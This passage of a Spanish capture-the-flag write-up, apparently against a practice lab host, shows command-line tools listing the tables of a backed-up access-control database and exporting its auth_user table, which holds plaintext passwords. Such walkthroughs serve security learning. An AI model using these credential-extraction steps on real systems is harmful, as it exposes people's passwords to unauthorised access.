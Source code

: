 ```bash
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc auth_group_permissions auth_message auth_permission auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate FaceTempEx FingerVeinEx TEMPLATEEx
❯ mdb-tables 10.10.10.98/Backups/backup.mdb | tr ' ' '\n' | grep -i -E 'user|auth|cred'
auth_group_permissions
auth_message
auth_permission
auth_user
auth_user_groups
auth_user_user_permissions
USER_OF_RUN
USER_SPEDAY
UserACMachines
UserACPrivilege
USERINFO
userinfo_attarea
UsersMachines
UserUpdates
auth_group
AUTHDEVICE
USER_TEMP_SCH
UserUsedSClasses
OfflinePermitUsers
TmpPermitUsers
```

Aqui ya vemos las tablas que nos podrían interesar y una en concreto sería `auth_user`, así que vamos a listar el contenido:

```bash
❯ mdb-export 10.10.10.98/Backups/backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
❯ mdb-export 10.10.10.98/Backups/backup.mdb auth_user | tr ',' ' '
id username password Status last_login RoleID Remark
25 "admin" "admin" 1 "08/23/18 21:11:47" 26 
27 "engineer" "access4u@security" 1 "08/23/18 21:13:36" 26 
28 "backup_admin" "admin" 1 "08/23/18 21:14:02" 26
```
